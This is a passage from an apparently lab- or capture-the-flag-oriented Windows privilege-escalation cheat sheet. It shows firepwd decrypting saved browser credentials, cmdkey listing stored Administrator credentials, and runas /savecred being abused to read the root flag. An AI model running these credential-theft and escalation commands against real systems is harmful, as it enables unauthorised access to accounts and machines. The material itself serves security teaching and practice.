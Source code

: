 ## <span style="color:lightgreen">Exploitation</span>
1. Download the following
```console
$ git clone https://github.com/lclevy/firepwd.git
```

2. Place the required files in the same directory and run the python file for the creds

```console
$ python3 firepwd.py
 
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
<SNIP>
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'<<HIDDEN>>'
```

# <span style="color:lightblue">Runas-Savdcreds</span>
## <span style="color:lightgreen">Methodology</span>
We can check if there are any pre-existing credentials of the administrator on the system. We can abuse this by using the loaded creds for privilege escalation. In the below example, I will demonstrate how to read files through the saved creds.

## <span style="color:lightgreen">Detection</span>
1. winpeas 
2. Checking for existence

```console
$ cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

## <span style="color:lightgreen">Exploitation</span>
1. Reading root flag

```console
C:\Temp> C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE c:\Users\Administrator\Desktop\root.txt > C:\Users\security\root1.txt"
```

# <span style="color:lightblue">Backup Operators (Disk shadow + Robocopy)</span>

## <span style="color:lightgreen">Methodology</span>
